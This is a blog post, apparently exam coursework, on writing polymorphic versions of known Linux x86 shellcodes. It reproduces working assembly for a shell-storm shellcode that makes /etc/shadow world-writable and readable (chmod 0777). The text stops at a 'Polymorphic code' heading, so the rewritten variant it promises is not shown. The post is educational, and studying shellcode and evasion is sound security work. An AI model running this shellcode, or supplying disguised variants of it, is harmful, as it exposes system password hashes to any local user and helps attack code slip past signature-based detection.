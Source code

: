 ```yaml
---
layout: single
title: Polymorphic Linux Shellcode
date: 2018-12-11
classes: wide
header:
  teaser: /assets/images/slae32.png
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - polymorphic
---
```


This blog post shows 3 polymorphic variants of common shellcodes found on [shell-storm.org](http://shell-storm.org/shellcode/).

Note that the original shellcode is shown here using Intel syntax.

## Sample 1: Linux/x86 - chmod(/etc/shadow, 0777)

- Original size: 29 bytes
- Polymorphic size: 41 bytes (41% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-593.php](http://shell-storm.org/shellcode/files/shellcode-593.php)

### Original code:

```nasm
global _start

section .text

_start:

xor eax,eax
push eax
push dword 0x776f6461 ; /etc/shadow
push dword 0x68732f63
push dword 0x74652f2f
mov ebx,esp
push word 0x1ff
pop ecx
mov al,0xf
int 0x80
```

### Polymorphic code:
